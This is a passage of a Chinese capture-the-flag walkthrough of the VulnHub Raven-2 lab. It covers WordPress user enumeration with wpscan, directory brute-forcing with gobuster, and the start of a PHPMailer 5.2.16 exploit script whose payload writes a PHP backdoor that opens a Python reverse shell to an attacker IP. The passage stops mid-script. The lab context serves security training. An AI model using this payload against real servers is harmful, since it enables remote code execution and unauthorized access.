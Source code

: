 那么使用针对该CMS的工具`wpscan`进行测试

```shell
wpscan --url http://raven.local/wordpress
```

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\9.jpg)

那么尝试进行枚举用户，发现又是这两个用户`michael`和`steven`

```
wpscan --url http://raven.local/wordpress -e u
```

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\10.jpg)

再次对插件进行测试，发现并无有漏洞的插件，爆破密码，但是时间太长，所以尝试进行网站目录爆破

这里是使用`gobuster`，当然还有其他很优秀的工具，如`dirb、dirsearch`等

```shell
gobuster dir -u http://192.168.10.9 -w /usr/share/wordlists/dirb/big.txt -x php,html,zip,tar -b 404,403
```

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\11.jpg)

但是发现这里的结果与`raven-1`是一样的，访问`vendor`目录，点击`PATH`，发现第一个`flag`

不过这里也给出当前目录所在路径，往前推测，网站建设在`/var/www/html`下

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\12.jpg)

点击`version`，发现版本为`5.2.16`，发现还是与`raven-1`一样，啧，怀疑与前面靶机的方式一模一样，访问`security.md`，发现还是一样的安全提示

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\13.jpg)

# php mailer漏洞利用

`ok`，那么就直接利用`php mailer`的漏洞

在`raven-1`靶场中，使用的是`sh`脚本，不过当时需要修改一些地方，这里采用`py`脚本进行测试

```shell
searchsploit phpmailer 5.2.16
```

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\14.jpg)

查看脚本内容

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\15.jpg)

把修改后的代码，放置在这里

```python
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

target = 'http://192.168.10.9/contact.php'
backdoor = '/test.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.10.2\\\',9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
```